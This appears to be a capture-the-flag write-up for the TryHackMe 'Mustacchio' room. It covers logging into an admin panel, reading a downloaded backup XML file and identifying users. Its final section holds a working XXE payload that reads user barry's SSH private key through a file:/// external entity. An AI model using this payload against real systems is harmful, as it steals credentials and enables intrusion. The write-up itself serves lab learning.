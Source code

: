 ## NGINX(8765)

We have a login page:

![[Pasted image 20250725170130.png]]

We can login with the cracked password for the admin user:

![[Pasted image 20250725172458.png]]
In the [[Source Code]] :

![[Pasted image 20250725172526.png]]

We also have :

![[Pasted image 20250725173907.png]]

Let's go to the page to download and open it:

```
──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Mustacchio]
└─$ cat dontforget.bak 
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>            
```

We have 2 users : `joe` , `barry`. 
# Exploit

We modify the [[XML]] code found to retrieve the mentioned ssh barry's private key:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>&xxe;</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could
ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could
ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```
